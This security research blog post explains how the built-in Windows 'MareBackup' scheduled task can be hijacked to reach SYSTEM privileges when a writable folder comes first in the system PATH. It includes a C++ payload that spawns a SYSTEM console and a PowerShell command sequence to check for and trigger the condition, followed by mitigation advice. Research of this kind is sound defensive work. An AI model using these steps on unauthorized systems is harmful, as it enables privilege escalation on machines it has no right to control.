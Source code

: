 ```yaml
---
title: "Hijacking the Windows \"MareBackup\" Scheduled Task for Privilege Escalation"
layout: "post"
categories: [ "Privilege Escalation" ]
tags: [ "Exploit", "Privilege Escalation" ]
---
```


The built-in "MareBackup" scheduled task is susceptible to a trivial executable search order hijacking, which can be abused by a low-privileged user to gain `SYSTEM` privileges whenever a vulnerable folder is prepended to the system's `PATH` environment variable (instead of being appended).

As I was working on a semi-automated research project on an unrelated subject, I generated and collected a lot of data with Process Monitor. So, I decided to have a quick look and applied the basic search filters for DLL search order hijacking, just to see if something would come out, even if it was not my initial objective. This is how I observed the following behavior.

![Process Monitor showing the execution of PowerShell by `CompatTelRunner.exe`](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-powershell-search-order.png)
*Process Monitor showing the execution of PowerShell by `CompatTelRunner.exe`*

We have an executable named `CompatTelRunner.exe`, running as `NT AUTHORITY\SYSTEM`, and executing PowerShell, apparently without specifying its absolute path because we can see that it uses the typical executable search order [documented here](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw).

The Python `PATH` entries are highlighted here because Python was known in the past for inserting folders configured with (default) weak permissions in the system's `PATH` environment variable. This issue has since been addressed in the Python installer, and therefore this behavior wouldn't be exploitable here.

Besides, contrary to a typical Ghost DLL hijacking, where `LoadLibrary` would go through all the `PATH` entries because the target file doesn't exist, here the hijacking would work only if a vulnerable entry was prepended to the list, instead of being appended, because the legitimate `powershell.exe` would be found eventually.

![Hypothetical PowerShell search order hijacking](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/diagram-powershell-hijacking.png)
*Hypothetical PowerShell search order hijacking*

Now, assuming that such a vulnerable folder exists, is this behavior really exploitable, and can we trigger it as a low-privileged user? You guessed it, the answer to both of these questions is "*yes*". Let me walk you through a quick analysis.

In total, Process Monitor recorded 13 "Process Create" events for `powershell.exe`. They are all similar so the one shown below was just picked at random. The "Event" tab shows the following command line being executed. Nothing really interesting there.

```powershell
powershell.exe -ExecutionPolicy Restricted -Command Write-Host 'Final result: 1';
```

![Process Monitor - PowerShell process create event details](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-event.png)
*Process Monitor - PowerShell process create event details*

The "Process" tab shows the following command line for the parent process. It also confirms that it runs as `NT AUTHORITY\SYSTEM` in session `0`. So, we are sure there is no user impersonation involved here.

```batch
"C:\WINDOWS\system32\compattelrunner.exe" -m:appraiser.dll -f:DoScheduledTelemetryRun
```

![Process Monitor - Parent process details](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-process-details.png)
*Process Monitor - Parent process details*

The "Stack" tab shows that the `CreateProcessW` call originated from a function named `PowerShellMatchingPlugin` in `acmigration.dll`.

![Process Monitor - Stack trace leading to the `CreateProcessW` call](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-stack.png)
*Process Monitor - Stack trace leading to the `CreateProcessW` call*

Now, there is a bit of information I already knew, but it was also possible to make an educated guess. The keywords `appraiser` and `ScheduledTelemetry` put me on the right track immediately. I've seen the first one on multiple occasions in a few built-in scheduled tasks, and the second one kind of hints in that direction as well.

We can use PowerShell to quickly enumerate all the scheduled tasks and find the ones with a "command line" action containing the keyword `DoScheduledTelemetryRun`. As a side note, this enumeration should be done as an administrator to ensure that all registered tasks are checked, not just the ones visible to low-privileged users.

```console
PS C:\WINDOWS\system32> Get-ScheduledTask | ? { $_.Actions.Arguments -like "*DoScheduledTelemetryRun*" } | select TaskPath,TaskName,Description,State | fl

TaskPath    : \Microsoft\Windows\Application Experience\
TaskName    : MareBackup
Description : Gathers Win32 application data for App Backup scenario
State       : Ready

TaskPath    : \Microsoft\Windows\Application Experience\
TaskName    : Microsoft Compatibility Appraiser Exp
Description : Collects program telemetry information if opted-in to the Microsoft Customer Experience Improvement Program.
State       : Ready
```

The result shows two candidate scheduled tasks, `MareBackup` and `Microsoft Compatibility Appraiser Exp`, which are both registered under "Application Experience".

![Task Scheduler - Application Experience scheduled tasks](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/task-scheduler-candidate-tasks.png)
*Task Scheduler - Application Experience scheduled tasks*

At this point, we have all the information we need, but just out of curiosity, I opened the file `acmigration.dll`, from which the `CreateProcessW` originates, in Ghidra, to take a look at the `PowerShellMatchingPlugin` function. Unfortunately, Ghidra was not able to reconstruct the initialization of the command line, so I'll just highlight the `CreateProcessW` API call. Apart from the fact that it specifies the creation flag `CREATE_NO_WINDOW`, there is nothing special here either.

![Ghidra - `CreateProcessW` being called from `acmigration!PowerShellMatchingPlugin`](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/ghidra-powershellmatchingplugin.png)
*Ghidra - `CreateProcessW` being called from `acmigration!PowerShellMatchingPlugin`*

The last question is "*can we trigger or start at least one of these two scheduled tasks as a low-privileged user?*". The first one doesn't have any trigger registered, and the second one only has one custom trigger. This is not encouraging, but we can try to start them manually using either `schtasks.exe` or the PowerShell cmdlet `Start-ScheduledTask`.

![PowerShell - Attempting to start the two candidate scheduled tasks](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/powershell-start-scheduled-tasks.png)
*PowerShell - Attempting to start the two candidate scheduled tasks*

We get an "access denied" error when attempting to start `Microsoft Compatibility Appraiser Exp`, but the other one seems to work. To understand why that is, we should take a look at their DACLs, but there is no easy way to do that within the Task Scheduler GUI. However, since I implemented DACL checks for scheduled tasks in [PrivescCheck](https://github.com/itm4n/PrivescCheck), I can use that to my advantage.

![PowerShell - "MareBackup" scheduled task permission check](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/powershell-scheduled-task-permissions.png)
*PowerShell - "MareBackup" scheduled task permission check*

Note that there is actually an easier way to achieve the same result. We can check the DACL of the XML file containing the scheduled task's definition.

!["MareBackup" scheduled task permission check with icacls](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/cmd-icacls-scheduled-task-file.png)
*"MareBackup" scheduled task permission check with icacls*

Whichever method is used, we can see that the `BUILTIN\Users` identity has `AllAccess`, or `FullControl`, over the scheduled task. "*So, that means I can modify the scheduled task as a low-privileged user and achieve LPE? That's an 0-day!*"

The result of the `icacls` command shows that we have full control over the scheduled task file, but that doesn't serve any purpose since there is a checksum stored in the registry, and an integrity check is performed by the `Schedule` service when the tasks are loaded. Theoretically, the only way to modify a scheduled task is through the `Schedule` service using RPC, and all the procedures verify that the client has administrator privileges. The only exception that I'm aware of is the one used for enabling / disabling tasks.

So, no actual vulnerability here, but this does explain why we can start the scheduled task manually without administrator privileges.

One question remains, what about the payload? Well, we don't really care about preserving the original feature. It's just a scheduled task for collecting telemetry data after all, it's not system-critical, so we can execute whatever we want without having to ensure that the PowerShell commands are actually executed. In addition, the `Schedule` service will use the default `SYSTEM` token, which has `SeTcbPrivilege` enabled. Therefore, I opted for my personal favorite: spawning a `SYSTEM` console on the user's desktop ([original code](https://googleprojectzero.blogspot.com/2016/01/raising-dead.html)).

```cpp
HANDLE hToken = NULL, hTokenDup = NULL;
STARTUPINFO si = { 0 };
PROCESS_INFORMATION pi = { 0 };
LPCWSTR pwszApplication = L"cmd.exe";
DWORD dwSessionId = 1; // Set to the target user's session ID
                       // (or invoke WTSGetActiveConsoleSessionId() to get the console session ID)

// Error checks were removed for conciseness
OpenProcessToken(GetCurrentProcess(), MAXIMUM_ALLOWED, &hToken);
DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityAnonymous, TokenPrimary, &hTokenDup);
SetTokenInformation(hTokenDup, TokenSessionId, &dwSessionId, sizeof(dwSessionId));

si.cb = sizeof(si);
si.wShowWindow = SW_SHOW;
si.lpDesktop = const_cast<wchar_t*>(L"WinSta0\\Default");

CreateProcessAsUserW(hTokenDup, pwszApplication, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
CloseHandle(hTokenDup);
CloseHandle(hToken);
```

Finally, below is a list of all the commands you'll need to check for and exploit this "*vulnerability*". The only thing to pay attention to is whether a `PATH` folder entry with weak permissions is placed before the default Windows PowerShell folder path.

```powershell
# Check the system PATH
Get-ItemProperty -Path "Registry::HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -Name "Path" | Select-Object -ExpandProperty Path
# Check whether the scheduled task exists and is enabled
Get-ScheduledTask -TaskName "MareBackup"
# Enable the scheduled task if needed
Enable-ScheduledTask -TaskPath "\Microsoft\Windows\Application Experience" -TaskName "MareBackup"
# Start the scheduled task
Start-ScheduledTask -TaskPath "\Microsoft\Windows\Application Experience" -TaskName "MareBackup"
```

> In the video below, the user is named "Admin", and is indeed a member of the local "Administrators" group, but everything is done under "medium" integrity since User Account Control (UAC) is enabled, so the PowerShell process doesn't have administrator privileges.
{: .prompt-info}

{% include embed/video.html src='/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/poc.webm' title='Exploitation of the PrintNightmare vulnerability' muted=true %}

The term "*vulnerability*" is obviously not appropriate here because the actual vulnerability lies in the fact that a folder with weak permissions was inserted in the system's `PATH` environment variable. Nonetheless, it is possible to avoid such a behavior by constructing the absolute path of `powershell.exe` before calling `CreateProcess`, rather than relying on a potentially hijackable search order.

That's all for this post, it was a rather short one for once. Back to my main project now... :wink:

***This article was originally posted on [SCRT's blog](https://blog.scrt.ch/2025/05/20/hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/).***
